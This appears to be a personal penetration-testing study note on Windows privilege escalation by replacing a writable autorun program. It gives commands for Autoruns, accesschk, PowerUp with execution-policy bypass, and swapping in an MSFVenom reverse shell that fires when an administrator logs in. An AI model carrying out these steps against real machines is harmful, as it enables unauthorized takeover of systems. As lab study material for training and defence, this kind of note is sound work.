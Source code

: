 Need RDP access

```
wget https://download.sysinternals.com/files/Autoruns.zip
```

**Detection**

Transfer over Autoruns.exe from kali to target and run it.

[[4._File Transfers]]

```batch - windows
Autoruns.exe
```

In this example, say we found "My Program" entry is pointing to "C:\Program Files\Autorun Program\program.exe"

**Exploitation**

Use accesschk

```batch - windows
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```


The output states that "Everyone" user group has "FILE_ALL_ACCESS" permission on the program.exe file.

#### PowrUp.ps1

```batch - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```


[[1._Reverse Shells (WIN)#MSFVenom]]

Name reverse shell as "program.exe"

![[Python#Server]]

Transfer file to victim.

Replace our malicious program.exe with the original found in "C:\Program Files\Autorun Program"

Now, an elevated privileged user will have to login and click "Run" before we can get our shell:


